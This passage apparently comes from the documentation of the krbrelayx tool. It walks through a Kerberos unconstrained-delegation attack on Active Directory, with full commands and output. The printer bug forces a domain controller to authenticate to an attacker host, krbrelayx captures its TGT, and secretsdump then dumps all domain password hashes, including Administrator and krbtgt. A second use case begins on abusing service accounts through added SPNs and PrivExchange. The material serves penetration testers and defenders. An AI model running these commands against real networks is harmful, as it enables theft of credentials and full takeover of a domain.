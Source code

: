 Now we get the Domain Controller to authenticate to us via the printer bug, while we start krbrelayx in export mode, in which all extracted TGTs will be saved to disk. We provide the AES256 key to krbrelayx, since this key will be used by default for computer accounts.
```
user@localhost:~/krbrelayx$ python printerbug.py -hashes aad3b435b51404eeaad3b435b51404ee:c1c635aa12ae60b7fe39e28456a7bac6 internal.corp/icorp-w10\$@icorp-dc.internal.corp attacker.internal.corp
[*] Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Attempting to trigger authentication via rprn RPC at icorp-dc.internal.corp
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Triggered RPC backconnect, this may or may not have worked
```
krbrelayx on a different screen:
```
user@localhost:~/krbrelayx$ sudo python krbrelayx.py -aesKey 9ff86898afa70f5f7b9f2bf16320cb38edb2639409e1bc441ac417fac1fed5ab
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Running in export mode (all tickets will be saved to disk)
[*] Setting up SMB Server

[*] Setting up HTTP Server
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 192.168.111.2
[*] Got ticket for ICORP-DC$@INTERNAL.CORP [krbtgt@INTERNAL.CORP]
[*] Saving ticket in ICORP-DC$@INTERNAL.CORP_krbtgt@INTERNAL.CORP.ccache
[*] SMBD: Received connection from 192.168.111.2
```
This gives us a TGT of the domain controller account, which has DC Sync privileges in the domain, meaning we can extract the hashes of all the accounts in the directory.
```
user@localhost:~/krbrelayx$ export KRB5CCNAME=ICORP-DC\$@INTERNAL.CORP_krbtgt@INTERNAL.CORP.ccache
user@localhost:~/krbrelayx$ secretsdump.py -k icorp-dc.internal.corp -just-dc
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a39494027fd39934e08a713c999e8cf3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:33168b759a89c059815d7aea5c27a3d9:::
...etc...
```

# Use case 2: Abusing a service account and PrivExchange
The previous use case used a computer account and an SMB connection to obtain the TGT of a DC. While the above described method is the only way to perform this attack without executing code on the compromised host (all data is obtained via RPC calls, and the DC only connects to the attacker machine), usually it would be easier to trigger an SMB connection to the compromised host, dump LSASS memory and/or use Mimikatz or Rubeus to extract the TGTs from memory. This would not require modifying DNS records and SPNs.
In the next case we will be using a user account (that is used as a service account) instead of a computer account. This is more complex or even impossible to exploit without modifying information in AD. If the user account is for example used for an MSSQL service, it would only be possible to extract the TGT from LSASS if we could somehow convince a victim to connect to the MSSQL service **and** also have Administrative access to the server to run the code that extracts the tickets from memory. By adding an extra SPN to the user account we can use existing tools such as the SpoolService bug or PrivExchange to exploit this via HTTP or SMB, without the need to touch the host on which this service is running at all.
